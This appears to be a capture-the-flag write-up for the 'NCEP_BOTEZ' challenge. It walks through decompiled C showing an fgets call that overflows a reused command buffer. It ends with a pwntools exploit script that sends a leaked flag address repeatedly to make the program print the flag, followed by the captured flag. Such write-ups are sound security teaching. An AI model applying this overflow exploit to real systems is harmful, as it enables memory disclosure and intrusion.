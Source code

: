 # NCEP_BOTEZ

For this challenge, we are given a binary that is very similar looking to the one from NCEP_XQC. 
Running the program there is that same GNU chess game that we can interact with, but this time we have no control over the command line arguments, so no injection. Messing around with the program we can see that the only place we have any sort of control is when we make our move:

```
flag loaded at 0x562c0e2e8260
executing command: /usr/games/gnuchess -g -m
GNU Chess 6.2.5
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
White (1) : 
```

We are also given the location in memory of where the flag is loaded in at, which gives us a clue that whatever our payload is going to be must include it. At this point we started to do some static analysis to see where we could exploit something.

Since there is only one place in the program where we can put in user input, we started our reverse engineering there:

```c++
void get_input(long param_1)

{
  memset((void *)(param_1 + 0x110),0,0x100);
  fgets((char *)(param_1 + 0x110),0x500,stdin);
  return;
}
```

Interseting, it looks like we do an `fgets` to `param_1` plus an offset, but `param_1` is a variable that was passed into this function, so we followed that parameter up to see where it came from. Eventually, we were led to the main function of the program where we can see where it was initilized:

```c++
undefined8 main(void)

{
  void *__ptr;
  void *__ptr_00;
  
  __ptr = (void *)load_flag();
  __ptr_00 = malloc(0x21c);
  init_game(__ptr_00);
  printf("executing command: %s\n",*(undefined8 *)((long)__ptr_00 + 0x210));
  launch_gnuchess(__ptr_00);
  thread_handler(__ptr_00);
  printf("finished executing command %s\n",*(undefined8 *)((long)__ptr_00 + 0x210));
  free(__ptr_00);
  free(__ptr);
  return 0;
}
```

So now we know that `void *__ptr_00` is our `param_1`, but what is interesting here is how much it is being reused. We can see that it is used in the first `printf` to print the command that was excecuted, but then it gets passed into the `thread_handler` function, which is what eventually leads to our `fgets` being called. So the same pointer holding the string of our command is also being used for the `fgets`. This normally wouldn't be a problem since a null terminator is used to mark the end of a string, but here we see that quite a large buffer was used to allocate this particular char array. Maybe if we fill up that buffer and put the address of our flag in the string, we can make the second `printf` print the flag. Let's try it out:

```python
from pwn import *
import os, sys

io = remote('ctf.ropcity.com', 31315)

io.recvuntil("flag loaded at ")
addr = int(io.recvline(), 16)

flag = p64(addr)

io.recvuntil("White (1) : ")

payload = flag*100

io.sendline(payload)
io.interactive()
```

And running it we get the flag: 
`osu{ro$eN_w1LL_not_8e_th1$_4givinG}`
